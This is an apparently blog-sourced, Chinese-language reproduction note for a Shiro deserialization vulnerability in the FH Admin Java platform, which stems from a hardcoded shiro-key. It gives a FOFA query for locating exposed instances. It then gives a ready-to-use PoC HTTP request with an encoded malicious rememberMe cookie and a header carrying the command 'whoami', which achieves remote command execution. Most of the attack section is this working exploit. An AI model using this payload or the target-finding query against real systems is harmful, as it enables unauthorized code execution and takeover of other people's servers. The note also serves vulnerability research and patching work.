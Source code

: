 
# FH Admin Shiro 反序列化漏洞复现

### 0x01 产品简介

  FH Admin 是一款 java [快速开发平台](https://so.csdn.net/so/search?q=%E5%BF%AB%E9%80%9F%E5%BC%80%E5%8F%91%E5%B9%B3%E5%8F%B0&spm=1001.2101.3001.7020)。

### 0x02 漏洞概述

 FH Admin CMS 存在 shiro [反序列化漏洞](https://so.csdn.net/so/search?q=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞源于软件存在硬编码的 shiro-key，攻击者可利用该 key 生成恶意的序列化数据，在服务器上执行任意代码，执行系统命令、或打入内存马等，获取服务器权限。

### 0x03 复现环境

FOFA：app="FH-Admin"

![](assets/1701669943-f4bf24db0b200598f9f4b064a7f92e36.png)

### 0x04 漏洞复现 

PoC

```cobol
GET /appSysUser/registerSysUser.do HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
X-Token-Data: whoami
Cookie: rememberMe=RjI4NWNFQzBDZTVGNWNBM6ByNoG5jvpzbQqTkz2zP8GLkE05HSQI3cfp4VAgaPDcrRrjkpJu9jMhqPwCVC7PctiZQKqpVMs1MpWDU+QNSulwceEdncBKO8H/3euOC5R6IBRFUreexKBsk+q2p7+J2TyahI2qYdizpzKnXhigkLx8wSmLCPHjJN/Mnhd3mepbIPPthxHC3BHq5+hda3bKpoEr4dv2jKzCJj3h+8skALnTGmbUyoWmobwsTLoBkI6G/MsFi3oiXxzzc+kE
```
